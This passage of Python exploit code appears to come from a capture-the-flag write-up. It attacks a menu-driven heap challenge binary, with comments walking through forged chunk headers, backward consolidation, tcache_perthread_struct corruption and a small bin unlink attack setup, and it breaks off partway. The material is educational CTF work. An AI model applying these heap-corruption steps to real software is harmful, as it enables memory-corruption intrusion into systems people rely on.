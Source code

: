 ```python

# This chunk will be freed to consolidate backwards
buy(2, 0x600, '\x00'*0x600)

# Set prev size to go back to the fake 0x230 chunk
# Clear prev inuse bit of the 0x600 sized chunk
upgrade(1, '\x00'*0x80 + p64(0x230) + p64(0x610))

# 0x600 chunk will now be freed and consolidated back to the fake 0x230 sized chunk
# Top chunk is right after this, so top chunk is consolidated all the way back too
sell(2)

# Index 5 will be the 0x6c1 sized fake chunk in the payload
# Index 0 will be the 0x31 sized chunk
# Index 1 will be the 0x21 sized chunk
payload = '\x00'*0x78 + p64(0x6c1) # Index 5
payload += p64(0)*17 + p64(0x31) # Index 0
payload += p64(0)*17 + p64(0x21) # Index 1
payload += p64(0)*15
buy(2, 0x500, payload)

# We put pointers to these chunks into the tcache_perthread_struct now
# This is required later when we do the small bin unlink attack
sell(0) # Free 0x30 sized chunk
sell(1) # Free 0x20 sized chunk

# Consolidate backwards again
# Any new allocations following this will allow us to overwrite the metadata of any
# of the chunks from above
sell(2)

# We create a chunk to go right up to the 0x20 sized chunk's fd and bk
# We must also maintain the 0x6c1 sized fake chunk here as we still have a pointer to it
# We will free the fake 0x6c1 chunk into the unsorted bin later
# It will be used to overwrite the metadata of the fake chunks from above
buy(0, 0x1a0, p64(0)*15+p64(0x6c1))

# This chunk will be right after the 0x20 sized chunk's fd and bk from above
# It will be sent into the small bin
# We will use it to perform a small bin unlink attack later
buy(1, 0x210, 'A'*0x210)

# Just a filler chunk for the next chunk
buy(2, 0x210, 'B'*0x210)
sell(2) # Send to tcache

# We need the fake 0xd1 chunk header here to be able to free the 0x6c1 chunk
# This can be calculated using gdb
buy(2, 0x210, '\x00'*0x148+p64(0xd1))
sell(2) # Send to tcache

# Fill the 0x210 tcache bin
for i in range(5):
  buy(2, 0x210, 'a')
  sell(2)

# We create a fake 0x100 chunk header in the tcache_perthread_struct
# by freeing this chunk
buy(2, 0x3a0, 'A'*0x3a0)
sell(2) # Send to tcache

# Send that initial 0x210 sized chunk into the small bin now
sell(1) # Send it to the unsorted bin
```